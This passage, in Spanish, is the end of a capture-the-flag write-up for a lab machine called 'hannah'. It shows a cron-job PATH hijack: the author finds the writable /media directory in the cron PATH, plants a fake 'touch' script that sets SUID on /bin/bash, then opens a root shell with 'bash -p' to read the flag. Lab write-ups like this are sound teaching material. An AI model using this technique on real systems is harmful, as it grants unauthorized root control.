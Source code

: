 Bien, como podemos observar está leyendo de la última ruta del PATH, por lo que si podemos escribir en alguna ruta del mismo, podemos explotarlo:

~~~bash
moksha@hannah:~$ grep "PATH" /etc/crontab | tr -d "PATH=" | sed "s/:/\n/g" | xargs ls -ld
lrwxrwxrwx 1 root root     7 ene  4 10:39 /bin -> usr/bin
drwxrwxrwx 3 root root  4096 ene  4 10:39 /media
lrwxrwxrwx 1 root root     8 ene  4 10:39 /sbin -> usr/sbin
drwxr-xr-x 2 root root 20480 ene  4 10:44 /usr/bin
drwxr-xr-x 2 root root  4096 ene  4 10:40 /usr/local/bin
drwxr-xr-x 2 root root  4096 ene  4 10:40 /usr/local/sbin
drwxr-xr-x 2 root root 12288 ene  4 10:46 /usr/sbin
~~~

Podemos escribir en */media*, por lo que vamos a realizar un Path hijacking.


### Path hijacking

Vamos a crear un fichero "touch" y darle permiso de ejecución, el cual nos convertirá bash en un SUID con el fin de convertirnos en root:

~~~bash
moksha@hannah:~$ echo "chmod +s /bin/bash" > /media/touch
moksha@hannah:~$ chmod +x /media/touch
~~~

Solo nos queda convertir el bash a privilegiado y leer la flag:

~~~
moksha@hannah:~$ bash -p
bash-5.1# cd /root
bash-5.1# ls
root.txt
bash-5.1# cat root.txt
~~~

Con esto damos por finalizada esta máquina.

Dar las gracias a sml por la misma, ya llevamos varias de dicho autor y siempre tiene cositas nuevas, lo cual se agradece. Nos vemos en la siguiente.